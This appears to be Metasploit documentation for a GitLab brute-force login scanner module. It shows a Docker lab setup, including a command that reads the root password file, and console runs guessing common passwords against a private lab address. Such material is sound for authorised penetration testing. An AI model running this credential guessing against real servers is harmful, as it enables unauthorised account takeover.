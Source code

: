 ## Vulnerable Application

This module was successfully tested on:

    * gitlab-ce (v17.2.2-ce.0) installed with Docker on Kali Linux 6.6.15

### Description

This module is a brute-force login scanner that attempts to authenticate to the GitLab with username and password combinations.

## Installation (latest version of gitlab-ce at the time of this writing)

1. `docker pull gitlab/gitlab-ce:17.2.2-ce.0`
2. `sudo mkdir -p /srv/gitlab/config /srv/gitlab/logs /srv/gitlab/data`
3. Run the GitLab.
```
docker run --detach \                                              
--hostname localhost \
--publish 443:443 --publish 80:80 --publish 22:22 \
--name gitlab \
--restart always \
--volume /srv/gitlab/config:/etc/gitlab \
--volume /srv/gitlab/logs:/var/log/gitlab \
--volume /srv/gitlab/data:/var/opt/gitlab \
gitlab/gitlab-ce:17.2.2-ce.0
```
4. (Get initial password)
   `docker exec gitlab cat etc/gitlab/initial_root_password | grep Password:`

## Verification Steps

1. Install GitLab and start it
2. Start `msfconsole`
3. Do: `use auxiliary/scanner/http/gitlab_login`
4. Do: `set rhosts`
5. Do: set usernames and passwords via the `username` and `password` options, or pass a list via `user_file` and `pass_file` options
5. Do: `run`
6. You will hopefully see something similar to:

```
[+] 192.168.56.6:80 - Login Successful: root:strongpasswordcannotguess
```

## Options

## Scenarios

### Single set of credentials being passed
```
msf6 > use auxiliary/scanner/http/gitlab_login
msf6 auxiliary(scanner/http/gitlab_login) > run rhosts=192.168.56.6 username=root password=strongpasswordcannotguess

[*] 192.168.56.6:80 - GitLab v7 login page
[!] No active DB -- Credential data will not be saved!
[+] 192.168.56.6:80 - Login Successful: root:strongpasswordcannotguess
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Multiple credentials being passed
```
msf6 > use auxiliary/scanner/http/gitlab_login
msf6 auxiliary(scanner/http/gitlab_login) > run rhosts=192.168.56.6 user_file=/tmp/user.txt pass_file=/tmp/pass.txt

[*] 192.168.56.6:80 - GitLab v7 login page
[!] No active DB -- Credential data will not be saved!
[-] 192.168.56.6:80 - LOGIN FAILED: root:123456 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: root:123456789 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: root:picture1 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: root:password (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: root:12345678 (Incorrect)
[+] 192.168.56.6:80 - Login Successful: root:strongpasswordcannotguess
[-] 192.168.56.6:80 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: admin:picture1 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: admin:password (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: admin:12345678 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: admin:strongpasswordcannotguess (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:123456 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:123456789 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:picture1 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:password (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:12345678 (Incorrect)
[-] 192.168.56.6:80 - LOGIN FAILED: test:strongpasswordcannotguess (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
